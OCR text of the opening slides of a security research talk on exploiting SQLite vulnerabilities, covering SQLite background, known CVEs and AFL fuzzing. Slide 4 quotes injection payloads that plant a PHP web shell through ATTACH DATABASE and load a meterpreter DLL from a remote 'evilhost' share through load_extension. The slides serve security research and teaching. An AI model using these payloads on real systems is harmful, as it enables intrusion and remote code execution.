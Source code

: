 Many Birds, One Stone: Exploiting a Single SQLite Vulnerability Across Multiple Software
Siji Feng(a.k.a slipper) Zhi Zhou(@CodeColorist) Kun Yang(@KelwinYang) Chaitin Security Research Lab(@ChaitinTech)

About us
 Beijing Chaitin Tech Co., Ltd(@ChaitinTech)  https://chaitin.cn/en  pentesting services and enterprise products
 Chaitin Security Research Lab  Pwn2Own 2017 3rd place  GeekPwn 2015/2016 awardees: PS4 Jailbreak, Android rooting  CTF players from team b1o0p, 2nd place at DEFCON 2016
2

SQLite
"SQLite is a self-contained, high-reliability, embedded, full-featured, public-domain, SQL database engine. SQLite is the most used database engine in the world."  Storage backend for web browsers  Programming language binding  Web database  Embedded database for mobile apps  Database on IOT devices
3

Known Attacks on SQLite
SQLite3 Injection Cheat Sheet  Attach Database
 ?id=bob'; ATTACH DATABASE '/var/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<? system($_GET['cmd']); ?>';--
 SELECT load_extension()
 ?name=123 UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
4

Memory Corruption
SQLite database: file format with inevitable memory corruption bugs  CVE-2015-7036
 Parsing a malformed database file will cause a heap overflow of several bytes in the function sqlite3VdbeExec()
 CVE-2017-10989
 mishandles undersized RTree blobs in a crafted database, leading to a heap-based buffer over-read
5

Memory Corruption
SQLite interpreter: more flexible ways to trigger bugs in sql statements
 CVE-2015-3414
 SQLite before 3.8.9 does not properly implement the dequoting of collation-sequence names, as demonstrated by COLLATE"""""""" at the end of a SELECT statement.
 CVE-2015-3415
 The sqlite3VdbeExec function in vdbe.c in SQLite before 3.8.9 does not properly implement comparison operators, as demonstrated by CHECK(0&O>O) in a CREATE TABLE statement.
6

Fuzzing SQLite
Previous work of Michal Zalewski: AFL: Finding bugs in SQLite, the easy way  Uninitialized pointers, bogus calls to free(), heap/stack buffer overflows  22 crashes in 30 min  Now AFL is a standard part of SQLite testing strategy Example from his work sqlite-bad-free.sql
create table t0(o CHar(0)CHECK(0&O>O)); insert into t0; select randomblob(0)-trim(0);
7

AFL is not everything, we want deeper vulnerabilities.
8

Data Types in SQLite
Every value in SQLite has one of five fundamental data types:  64-bit signed integer  64-bit IEEE floating point number  string  BLOB  NULL
9
